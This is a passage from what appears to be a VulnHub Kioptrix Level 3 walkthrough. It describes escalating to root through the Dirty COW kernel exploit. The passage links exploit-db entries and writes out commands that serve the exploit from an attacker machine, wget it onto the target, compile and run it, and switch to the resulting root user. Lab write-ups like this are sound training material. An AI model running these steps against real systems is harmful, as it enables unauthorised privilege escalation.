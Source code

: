 [HT Editor 2.0.18 - File Opening Stack Overflow - Linux local Exploit](https://www.exploit-db.com/exploits/17083)

### Approach 2: Kernel Exploit

The enumeration that was performed in the information-gathering stage discovered that the target is running kernel v2.6.x.

```bash
uname -a
cat /proc/version_signature
```

![Kernel|600](images/vulnhub-kioptrix-lvl3/kernel.png)

By a quick search, it can be found that this version of the Linux kernel is vulnerable to the `DirtyCow` exploit.

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE\_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) - Linux local Exploit](https://www.exploit-db.com/exploits/40839)

By setting up a web server the exploit can be downloaded onto the target. The steps to execute the exploit are provided in the code itself. On running the exploit a password for a new user (`firefart`) has to be provided. This user will have `root` privileges i.e. full access to the system.

```bash
# Attach Machine (Web server)
python -m http.server 9001

# Target Machine
wget http://10.0.2.15:9001/dirtycow.c

gcc -pthread dirtycow.c -o dirtycow -lcrypt
./dirtycow password

su firefart
id
```
